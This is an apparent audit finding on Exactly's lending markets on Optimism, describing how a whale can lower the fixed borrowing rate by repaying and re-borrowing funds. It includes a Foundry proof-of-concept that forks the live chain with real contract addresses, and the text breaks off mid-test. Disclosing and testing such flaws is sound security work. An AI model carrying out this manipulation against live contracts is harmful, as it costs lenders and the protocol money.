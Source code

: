 A whale borrower can manipulate the fixed interest rate by repaying a huge amount of funds, taking a fixed loan with a lower rate, and borrowing the funds previously repaid again. 

## PoC

The following PoC executes this attack on the live contracts of Exactly on the Optimism chain. The test can be pasted into a new file within a forge environment. Also, the `.env` file must include the variable `OPTIMISM_RPC_URL` for the test to run. The test can be executed with the following command:

```solidity
forge test --match-test test_manipulate_utilization_lower_rate --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Market} from "protocol/contracts/Market.sol";
import {FixedLib} from "protocol/contracts/utils/FixedLib.sol";
import {Test} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestManipulationRate is Test {
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);
    Market marketWSTETH = Market(0x22ab31Cd55130435b5efBf9224b6a9d5EC36533F);

    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);
    IERC20 wsteth = IERC20(0x1F32b1c2345538c0c6f582fCB022739c4A194Ebb);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_manipulate_utilization_lower_rate() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = 1729728000; // Latest maturity
        uint256 liquidity = 3e18;
        uint256 borrowAmount = 1e18;

        // Simulate that a whale has borrowed a lot from the wstETH market
        address whale = makeAddr("whale");
        vm.startPrank(whale);
        deal(address(usdc), whale, 5_000_000e6);
        usdc.approve(address(marketUSDC), type(uint256).max);
        marketUSDC.deposit(5_000_000e6, whale);
        marketUSDC.auditor().enterMarket(marketUSDC);

        for (uint i = 0; i < 35; i++) {
            marketWSTETH.borrow(20e18, whale, whale);
        }
        vm.stopPrank();

        uint256 snapshot = vm.snapshot();

        // Now, borrow from fixed pool and store the fee
        deal(address(wsteth), address(this), liquidity);
```